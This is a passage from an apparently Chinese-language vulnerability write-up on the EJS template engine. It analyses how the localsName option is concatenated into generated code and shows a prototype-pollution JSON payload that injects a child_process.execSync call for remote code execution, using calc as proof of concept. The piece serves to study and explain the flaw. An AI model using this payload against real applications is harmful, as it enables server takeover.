 ## 第三处：localsName 字段 RCE

在 localsName 字段处，也是对 prepended 进行了拼接，所以这里也是可以存在对应的恶意代码拼接的

```bash
if (opts._with !== false) {
        prepended +=  '  with (' + opts.localsName + ' || {}) {' + '\n';
        appended += '  }' + '\n';
      }
```

[![](assets/1707954592-65cc8ff32d79853504178d7f19c65ebb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202200028-a7f78ee4-c1c2-1.png)

但是这里存在一个问题是：在后面 new Function 的时候，localsName 被作为参数在 function 的第一个形参处进行了拼接：

`fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);`

所以这里我们如果想通过闭合 with 然后单独列出我们的恶意代码就存在一些问题了，因为闭合 with 难免在后面拼接的时候，with 前面自带的 (无法闭合，导致抛出异常，所以这里我们就在 with 当中直接执行我们的恶意代码：

1、这里表示如果执行 localsName 没有返回报错结果或者是 undefined&null，就取 localsName 的作为返回结果

```bash
with (localsName || {}){}
```

2、这里将 localsName, escapeFn, include, rethrow 作为参数下一步传入 src 当中，因为我们在上文的 src 中也已经看到，存在 escapeFn，rethrow，locals(localsName 默认值) 等在 src 中的调用。

```bash
fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);
```

综合两点来进行考虑，我们可以将 localsName 附成一个值来进行执行，在 with 函数进行拼接的时候将 localsName 的值拼接进去，在后面构造函数的时候，作为参数传入 src 当中进行恶意代码的注入，在调用 with 的时候来触发恶意代码，也确保了我们不会出现因为闭合而出现报错的问题：

```bash
{
    "__proto__":{
        "localsName":"x=global.process.mainModule.require('child_process').execSync('calc')"
    }
}
```
